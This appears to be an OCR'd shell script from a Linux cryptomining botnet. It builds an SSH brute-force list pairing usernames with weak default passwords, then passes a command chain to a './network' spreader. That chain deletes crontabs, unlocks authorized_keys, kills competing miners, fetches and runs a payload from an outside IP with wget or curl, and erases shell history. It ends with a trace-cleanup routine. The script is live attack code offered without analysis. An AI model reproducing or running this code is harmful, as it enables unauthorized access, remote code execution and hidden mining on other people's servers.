 ```

for us in $(cat $pasus) ; do
    printf "$us $us\n" >> pass
    printf "$us "$us"\n" >> pass
    printf "$us "$us"123\n" >> pass
    printf "$us "$us"123456\n" >> pass
    printf "$us 123456\n" >> pass
    printf "$us 1\n" >> pass
    printf "$us 12\n" >> pass
    printf "$us 123\n" >> pass
    printf "$us 1234\n" >> pass
    printf "$us 12345\n" >> pass
    printf "$us 12345678\n" >> pass
    printf "$us 123456789\n" >> pass
    printf "$us 123.com\n" >> pass
    printf "$us 123456.com\n" >> pass
    printf "$us 123\n" >> pass
    printf "$us 1qaz@WSX\n" >> pass
    printf "$us "$us"@123\n" >> pass
    printf "$us "$us"@1234\n" >> pass
    printf "$us "$us"@123456\n" >> pass
    printf "$us "$us"123\n" >> pass
    printf "$us "$us"1234\n" >> pass
    printf "$us "$us"123456\n" >> pass
    printf "$us qwer1234\n" >> pass
    printf "$us 111111\n" >> pass
    printf "$us Passw0rd\n" >> pass
    printf "$us P@ssw0rd\n" >> pass
    printf "$us qaz123!@#\n" >> pass
    printf "$us !@#\n" >> pass
    printf "$us password\n" >> pass
    printf "$us Huawei@123\n" >> pass
done

wait
sleep 0.5
cat bios.txt | sort -R | uniq | uniq > i
cat i > bios.txt

./network "rm -rf /var/tmp/Documents ; mkdir /var/tmp/Documents 2>&1 ; crontab -r ; chattr -iae ~/.ssh/authorized_keys >/dev/null 2>&1 ; cd /var/tmp ; chattr -iae /var/tmp/Documents/.diicot ; pkill Opera ; pkill cnrig ; pkill java ; killall java ; pkill xmrig ; killall cnrig ; killall xmrig ;cd /var/tmp/; mv /var/tmp/diicot /var/tmp/Documents/.diicot ; mv /var/tmp/kuak /var/tmp/Documents/kuak ; cd /var/tmp/Documents ; chmod +x .* ; /var/tmp/Documents/.diicot >/dev/null 2>&1 & disown ; history -c ; rm -rf .bash_history ~/.bash_history ; rm -rf /tmp/cache ; cd /tmp/ ; wget -q 85.31.47.99/.NzJjOTYwxx5/.balu || curl -O -s -L 85.31.47.99/.NzJjOTYwxx5/.balu ; mv .balu cache ; chmod +x cache ; ./cache >/dev/null 2>&1 & disown ; history -c ; rm -rf .bash_history ~/.bash_history"

sleep 25

function Miner {
    rm -rf /dev/shm/retea /dev/shm/.magic
    rm -rf /dev/shm/.x ~/retea /tmp/kuak /tmp/diicot /tmp/.diicot
    rm -rf ~/.bash_history
    history -c
}

Miner
```
